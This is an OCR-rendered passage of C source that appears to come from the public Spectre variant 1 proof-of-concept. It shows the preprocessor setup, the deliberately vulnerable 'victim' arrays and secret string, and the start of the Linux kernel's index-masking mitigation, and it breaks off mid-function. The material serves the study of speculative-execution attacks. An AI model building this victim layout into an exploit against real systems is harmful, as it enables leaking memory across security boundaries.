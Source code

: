 ``` c
#else
/* Not MSC */
#if defined(__SSE__) && !defined(__SSE2__)
#define NOSSE2
#endif
#endif /* ifdef _MSC_VER */

#ifdef NOSSE2
#define NORDTSCP
#define NOMFENCE
#define NOCLFLUSH
#endif

/********************************************************************
Victim code.
********************************************************************/
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[16] = {
  1,
  2,
  3,
  4,
  5,
  6,
  7,
  8,
  9,
  10,
  11,
  12,
  13,
  14,
  15,
  16
};
uint8_t unused2[64];
uint8_t array2[256 * 512];

char * secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0; /* Used so compiler won’t optimize out victim_function() */

#ifdef LINUX_KERNEL_MITIGATION
/* From https://github.com/torvalds/linux/blob/cb6416592bc2a8b731dabcec0d63cda270764fc6/arch/x86/include/asm/barrier.h#L27 */
/**
 * array_index_mask_nospec() - generate a mask that is ~0UL when the
 * 	bounds check succeeds and 0 otherwise
 * @index: array element index
 * @size: number of elements in array
 *
 * Returns:
 *     0 - (index < size)
 */
static inline unsigned long array_index_mask_nospec(unsigned long index,
		unsigned long size)
{
	unsigned long mask;

	__asm__ __volatile__ ("cmp %1,%2; sbb %0,%0;"
			:"=r" (mask)
			:"g"(size),"r" (index)
```